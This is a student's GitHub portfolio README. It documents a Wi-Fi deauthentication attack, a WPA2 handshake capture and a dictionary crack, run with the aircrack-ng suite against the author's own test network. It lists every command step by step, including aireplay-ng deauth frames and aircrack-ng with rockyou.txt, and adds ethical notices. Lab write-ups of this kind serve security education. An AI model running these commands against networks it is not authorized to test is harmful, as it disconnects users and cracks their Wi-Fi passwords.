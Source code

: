 # Portfolio-DeauthAttack 🔓📡

This repository documents my **controlled Wi-Fi deauthentication (deauth) attack** and **WPA2 handshake capture** performed inside a **Kali Linux VM running on VMware Workstation Pro**. The exercise highlights how attackers can exploit unprotected 802.11 management frames to forcibly disconnect clients and capture WPA2 handshakes for offline password analysis. The purpose of this project is to provide a practical, hands-on example of both offensive wireless testing and defensive monitoring strategies. While the attack itself is disruptive, it also offers valuable lessons for defenders who need to recognize and mitigate such activity in real-world environments.

**The objective:** force a client on **my own test network** to disconnect, capture the WPA2 handshake, and crack a weak passphrase with the `aircrack-ng` suite.

> ⚠️ **Ethical Notice:** Performed only on a network I own, strictly for education and portfolio purposes. Do **not** test on networks without explicit authorization.

---

## ⚙️ Lab Environment

- **Platform:** VMware Workstation Pro  
- **Guest OS:** Kali Linux (kali-rolling)  
- **VM Resources:** 8 GB RAM • 4 vCPUs • 80 GB storage  
- **Wi-Fi Adapters:** 2× **ALFA AWUS036ACM** (USB passthrough)  
  - `wlan0` → handshake capture  
  - `wlan1mon` → packet injection / deauth  
- **Tools:** `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`  
- **Wordlist:** `rockyou.txt`  

---

## 📸 Step-By-Step Process (Commands + Evidence)

### 1) Detect Wireless Adapters
    iwconfig
Identify available interfaces before starting.

![Detect Adapters](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/01_detect_wireless_adapters.png)

---

### 2) Enable Monitor Mode (Injection Adapter)
    sudo airmon-ng start wlan0
Enable monitor mode on the adapter dedicated to injection; this creates `wlan1mon`.

![Enable Monitor Mode](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/03_enable_monitor_mode.png)

---

### 3) Scan Nearby Wi-Fi Networks (Discovery)
    sudo airodump-ng wlan0
Discover SSIDs/BSSIDs and confirm the target (**KC’s Mobile WPA2 Network**).

![Scan Wi-Fi Networks](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/04_scan_wifi_networks.png)

---

### 4) Target the Network and Capture the Handshake
    sudo airodump-ng --bssid <TARGET_BSSID> -c <CHANNEL> -w handshake wlan0
Lock onto the target AP on its channel and writes captured packets to `handshake-03.cap` using the listener interface.

![Target Network Capture](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/05_target_network_airodump.png)

---

### 5) Deauthenticate a Client (Trigger Handshake)
    sudo aireplay-ng --deauth 10 -a <TARGET_BSSID> -c <CLIENT_MAC> wlan1mon
Send deauth frames from the injection adapter to force a reconnect, generating the WPA2 4-way handshake.

![Handshake Captured](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/07_handshake_file_confirmed.png)

---

### 6) Crack the Captured Handshake
    aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <TARGET_BSSID> handshake-03.cap
Run a dictionary attack with `rockyou.txt` against the handshake capture.

![Password Cracked](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/08_password_cracked_aircrackng.png)

---

## 🖥️ VMware & Hardware Notes

- **USB Passthrough:** Both **ALFA AWUS036ACM** adapters are attached directly to the guest VM for full monitor/injection support.  
- **Networking:** VM set to **NAT** for package updates; wireless adapters are **not** bridged as NICs—each is passed through as a USB device to Kali.  
- **Driver Support:** Ensure chipset/driver support in Kali so `monitor` mode and injection function correctly.

---

## ✅ Key Takeaways

- Practical use of monitor mode and packet injection to capture WPA2 handshakes in a controlled lab.

- Developed a clear understanding of BSSID (access point) vs. client MAC (station) roles during deauthentication attacks.

- Demonstrated a successful dictionary attack, highlighting the risks of weak Wi-Fi passphrases.

- Built a reliable virtualized lab environment using VMware Workstation Pro and ALFA AWUS036ACM USB adapters for wireless testing.

---

## 📂 Repo Contents

- Step screenshots (evidence)  
- This `README.md` documenting methodology, tooling, and lab setup

---

## ⚖️ Legal & Ethical Reminder

This methodology is provided for **defensive education**. Always obtain **explicit written permission** before testing any network you don’t own. Unauthorized access is illegal and unethical.

---

## 👤 Author

**Karim Cherradi** — Cybersecurity Student & Ethical Hacker in Training  
GitHub: [@SecuredByKC](https://github.com/SecuredByKC)

